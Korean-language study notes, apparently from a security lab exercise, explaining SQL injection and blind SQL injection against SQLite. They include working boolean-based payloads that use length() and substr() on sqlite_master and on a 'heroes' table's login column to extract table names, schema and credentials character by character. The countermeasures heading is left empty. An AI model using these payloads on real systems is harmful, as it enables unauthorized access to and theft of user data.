

 

## Injection

공격자가 신뢰할 수 없는 입력을 프로그램에 주입하도록 하는 공격.

 

 

## SQL Injection

응용 프로그램 보안 상의 허점을 의도적으로 이용해, 

임의의 SQL문을 주입하여 악의적인 SQL문을 실행하게 함으로써

DB를 비정상적으로 조작하는 코드 인젝션의 대표적인 공격.

이로인해 공격자가 DB에 저장되어 있는 다른 사용자의 개인 정보 등 허가되지 않은 정보에 접근하여,

데이터 변조 및 조작 가능.

 

 

## Blind Injection

Blind SQL Injection으로 많이 사용

SQL인젝션 공격에는 쿼리 조건을 무력화하여 인증을 우회하거나,쿼리 결과에 정보를 붙여서 데이터를 유출하거나 시스템 명령어를 삽입하는 형태로 공격이 진행

하지만, 공격하는 대상 웹페이지가 어떤 오류도 출력하지 않고 쿼리 겨로가 리스트도 제공하지 않는다면 

Blind SQL Injection으로 쿼리 결과의 참/거짓을 통해 DB 값 유출해 내는 기법

 

### SQLite

MySQL이나 PostgreSQL과 같은 DBMS지만,

서버가 아니라 응용프로그램에 넣어 사용하는 비교적 가벼운 DB.

일반적인 DBMS에 비해 대규모작업에는 적합하지 않지만, 중소 규모라면 속도에 손색 없음.

또 API는 단순히 라이브러리를 호추하는 것만 있으며, 데이터를 저장하는 데 하나의 파일만을 사용하는 것이 특징.

- 참 거짓을 이용해 앞서 진행했던 길이, 대소문자 구분, 대조 방법을 이용하자

- 참

- 거짓

 

### 테이블 조회

`' or length((select tbl_name from sqlite_master limit 0,1))=1 --`

- 이런식으로 DB의 길이를 하나하나 참 거짓으로 대입해봐서 알아내면 됨
- 길이 구해주고
  - tbl_name = table_name
  - sqlite_master = information_schema

`' or substr((select tbl_name from sqlite_master limit 0,1),1,1)='a' --`

- substring 명령어를 통해 database의 첫번쨰 위치의 길이 1값이 a가 맞는지 확인한다.

`SUBSTR(str, pos, len)`

- str에서 pos 번째 위치의 len개의 문자를 읽어 들임

 

### 컬럼 조회

`' or length((select sql from sqlite_master where tbl_name='heroes' limit 0,1))=1 --`

- 길이
- sql = column_name

`' or substr((select sql from sqlite_master where tbl_name='heroes' limit 0,1),1,1)='a' --`

- 문자 대조!

 

### 컬럼 속성

`' or length((select login from heroes limit 0,1))=1 --`

- 길이

`' or substr((select login from heroes limit 0,1),1,1)='a' --`

- 문자 대조

 

 

## 대응방안

